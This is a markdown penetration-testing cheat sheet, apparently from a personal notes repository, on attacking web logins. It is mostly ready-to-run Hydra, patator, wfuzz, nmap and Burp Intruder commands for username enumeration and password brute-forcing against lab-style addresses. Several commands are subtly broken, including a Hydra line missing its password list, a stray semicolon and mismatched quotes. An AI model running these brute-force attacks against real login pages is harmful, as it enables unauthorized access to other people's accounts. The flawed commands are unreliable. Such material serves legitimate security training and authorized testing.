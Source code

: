 # Authentication Attacks

## Authentication Attacks



### HTTP Basic Authentication

HTTP Basic Authentication with Hydra:

```text
hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.10:8080/manager/html
```

### Enumerating Usernames via Error Messages

We can enumerate usernames with error messages.

`Invalid User`

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack)
```

Load the dictionary with:

```text
Intruder -> Payloads -> Payload Options -> Load
```

Match the string 'Invalid User' from the HTTP response:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> Invalid User
```

Follow redirections on the target only:

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can view the help panel with:

```text
patator http_fuzz --help
```

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='Invalid User'
```

**wfuzz**

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
wfuzz -c -w names.txt -d "username=FUZZ&password=password" http://10.10.10.10/login.php
```

### Enumerating Usernames via Cookie Values

We can enumerate usernames with cookie values.

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack) Intruder -> Payloads -> Payload Options -> Load
```

Match the response string of an invalid user cookie parameter:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> wrong_user
```

Follow redirections on the target only

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can do a username enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt --x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='wrong_user'
```

### Password Enumeration

#### patator

We can do a password enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=admin&password=FILE0&Submit=Login' 0=passwords.txt --x ignore:fgrep='Invalid Password'
```

## Brute Force in Login Forms

### nmap

```text
nmap -p 80 --script http-brute --script-args 'http-brute.hostname=domain_name,http-brute.method=POST,http-brute.path=/login,userdb=users.txt,passdb=passwords.txt' -v domain_name -n
```

### hydra

```text
hydra -l username -P <IP> http-post-form "/login_file.php:username_parameter=^USER^&password_parameter=^PASS^:error message"

hydra -l username; -P passlist.txt &lt;IP&gt; https-post-form "/directory/filname.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64

hydra -l admin -P /opt/SecLists/Passwords/10k_most_common.txt <IP> http-post-form "/dir/filename.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

### wfuzz

```text
wfuzz -c -u http://<IP>/login.php -d 'username_param=FUZZ&password=FUZZ' -w <wordlist.txt> -hh 440

wfuzz -c -z wordlist1.txt wordlist2.txt -u http://<IP>/login.php -d 'username_param=FUZZ&password=FUZZ' -w <wordlist.txt> --hw 430

wfuzz --hw 36 -c -w /opt/SecLists/Passwords/darkweb2017-top1000.txt -d 'username=admin&password=FUZZ&submit=Login' http://10.10.10.86/login
```

#### wfuzz with cookie

```text
wfuzz -w cewl.out -d '<parameters>' -b '<cookie_value>' http://<IP>/login/index.php

wfuzz --hw 29 -c -w /opt/SecLists/Passwords/darkweb2017-top1000.txt -H 'Cookie: password=FUZZ' http://10.10.10.86:8080/ 

wfuzz --hc 200 -w cewl.out -d 'username=FUZZ&passwd=Curling2018!&otherparameters" -b <cookie> http://<ip>/administrator/index.php
```

#### wfuzz with proxy

```text
wfuzz -w cewl.out -d '<parameters>' -p 127.0.0.1:8080 http://<IP>/login/index.php
```

### patator

```text
patator http_fuzz url=http://10.10.10.108/zabbix/index.php method=POST body= 'name=zapper&password=FILE0&autologin=1&enter=Sign+in' 0=/usr/share/SecLists/Passwords/darkweb2017-top1000.txt accept\_cookie=1 follow=1 -x ignore:fgrep= 'Login name or password is incorrect.'
```



